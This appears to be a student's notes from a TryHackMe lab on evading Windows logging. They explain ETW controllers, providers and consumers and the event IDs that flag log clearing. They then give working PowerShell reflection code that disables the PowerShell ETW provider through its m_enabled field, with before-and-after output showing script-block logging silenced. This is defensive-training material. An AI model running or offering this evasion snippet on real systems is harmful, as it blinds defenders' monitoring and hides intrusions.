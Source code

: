 # Evading Logging and Monitoring
- Unlike anti-virus and EDR (Endpoint Detection and Response) solutions, logging creates a physical record of activity that can be analyzed for malicious activity.
- Once logs are created, they can be kept on the device or sent to an event collector/forwarder.
- Once they are off the device, the defense team decides how to aggregate them
- Generally accomplished using an indexer and a SIEM (Security Information and Event Manager).
- The primary target for an attacker is the event logs, managed and controlled by ETW (Event Tracing for Windows).
## Event Tracing
- ETW handles almost all event logging at both the application and kernel level
- Event Ids are a core feature of Windows Logging
- Events are sent and transferred in ZML format
### Extensions of ETW
- Component --> Purpose
````
Controllers -->	Build and configure sessions
Providers	--> Generate events
Consumers	--> Interpret events
````
- Example of Event Id `4624` `An account was successfully logged on`
````
Event ID:4624
Source:Security
Category:Logon/Logoff
Message:An account was successfully logged on.

Subject:
Security ID: NT AUTHORITY\\SYSTEM
Account Name: WORKSTATION123$
...
[ snip ]
...
Logon Type: 7

New Logon:
Security ID: CORPDOMAIN\\john.doe
Account Name: john.doe
...
[ snip ]
...
Process Information:
Process ID: 0x314
````
## Approaches to Log Evasion
- Common event IDs to avoid causing 
````
Event ID	Purpose
1102 --> Logs when the Windows Security audit log was cleared
104 --> Logs when the log file was cleared
1100 --> Logs when the Windows Event Log service was shut down
````
- The above event IDs can monitor the process of destroying logs or “log smashing.
## Tracing Instrumentation
- ETW is broken up into three separate components
- Event Controllers are used to build and configure sessions.
- We can think of the controller as the application that determines how and where data will flow.
- Event Providers are used to generate events.
- The controller will tell the provider how to operate, then collect logs from its designated source
- There are also four different types of providers with support for various functions and legacy systems.
````
MOF (Managed Object Format) 
Defines events from MOF classes. Enabled by one trace session at a time.
````
````
WPP (Windows Software Trace Preprocessor) 
Associated with TMF(Trace Message Format) files to decode information. Enabled by one trace session at a time.
````
````
Manifest-Based 
Defines events from a manifest. Enabled by up to eight trace sessions at a time.
````
````
TraceLogging
Self-describing events containing all required information. Enabled by up to eight trace sessions at a time.
````
- Event Consumers are used to interpret events.
-  The consumer will select sessions and parse events from that session or multiple at the same time. 
-  This is most commonly seen in the `“Event Viewer”`.
- ![image](https://user-images.githubusercontent.com/75596877/171702263-525e4588-6213-4e19-a749-92e33a0678d4.png)
### Overall Process
- Events originate from the providers. 
- Controllers will determine where the data is sent and how it is processed through sessions. 
- Consumers will save or deliver logs to be interpreted or analyzed.
## Reflection for Fun and Silence
- Within PowerShell, ETW providers are loaded into the session from a .NET assembly: `PSEtwLogProvider`
- In a PowerShell session, most .NET assemblies are loaded in the same security context as the user at startup
- In the context of ETW (Event Tracing for Windows), an attacker can reflect the ETW event provider assembly and set the field `m_enabled` to `$null`.

- At a high level, PowerShell reflection can be broken up into four steps:
Obtain .NET assembly for PSEtwLogProvider.
Store a null value for etwProvider field.
Set the field for m_enabled to previously stored value.
At step one, we need to obtain the type for the PSEtwLogProvider assembly. The assembly is stored in order to access its internal fields in the next step.
````
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
````
- At step two, we are storing a value ($null) from the previous assembly to be used.
````
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
````
- At step three, we compile our steps together to overwrite the `m_enabled` field with the value stored in the previous line.
````
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
````
- We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and experiment with this technique.

- To prove the efficacy of the script, we can execute it and measure the number of returned events from a given command.
### Before 
````
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
7
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
11
````
### After
````
PS C:\Users\Administrator>.\reflection.ps1
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
````









